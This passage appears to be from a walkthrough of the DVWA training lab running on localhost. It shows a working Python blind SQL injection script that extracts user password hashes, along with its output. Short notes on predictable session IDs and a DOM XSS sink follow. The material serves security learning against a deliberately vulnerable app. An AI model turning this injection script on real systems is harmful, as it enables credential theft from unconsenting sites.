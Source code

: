 ```python
import requests

url = 'http://127.0.0.1:4280/'

sess = requests.Session()

# login
user_token = sess.get(url + 'login.php').text.split('name=\'user_token\' value=\'')[1].split('\'')[0]
sess.post(url + 'login.php', data={'username': 'admin', 'password': '123', 'Login': 'Login', 'user_token': user_token})
sess.post(url + 'security.php', data={'security': 'low', 'seclev_submit': 'Submit', 'user_token': user_token})

target = url + 'vulnerabilities/sqli_blind/?id='
sql = 'crane\' OR ascii(substr((SELECT password FROM users LIMIT {i}, 1), {j}, 1)) = {k}%23&Submit=Submit#'.replace(' ', '+')

for i in range(0, 5):
    password = ''
    for j in range(1, 33):
        for k in '0123456789abcdef':
            url = target + sql.format(i=i, j=j, k=ord(k))
            res = sess.get(url)
            if res.status_code == 200:
                password += k
                break
    print(f"[+] Password {i}: {password}")
```

Then we get the result:

```text
❯ python exp.py
[+] Password 0: 202cb962ac59075b964b07152d234b70
[+] Password 1: e99a18c428cb38d5f260853678922e03
[+] Password 2: 8d3533d75ae2c3966d7e0d4fcc69216b
[+] Password 3: 0d107d09f5bbe40cade3de5c71e9e9b7
[+] Password 4: 5f4dcc3b5aa765d61d8327deb882cf99
```

### Weak Session IDs

From the source code, we can find that if the session ID is 0 at first, and for each new seccion, it will increase by 1. So we can predict the session ID by accessing the page multiple times.

### XSS (DOM)

We can find the JavaScript source code in the Developer Tools:

```javascript
if (document.location.href.indexOf("default=") >= 0) {
  var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
  document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
  document.write("<option value='' disabled='disabled'>----</option>");
}
    
document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
```
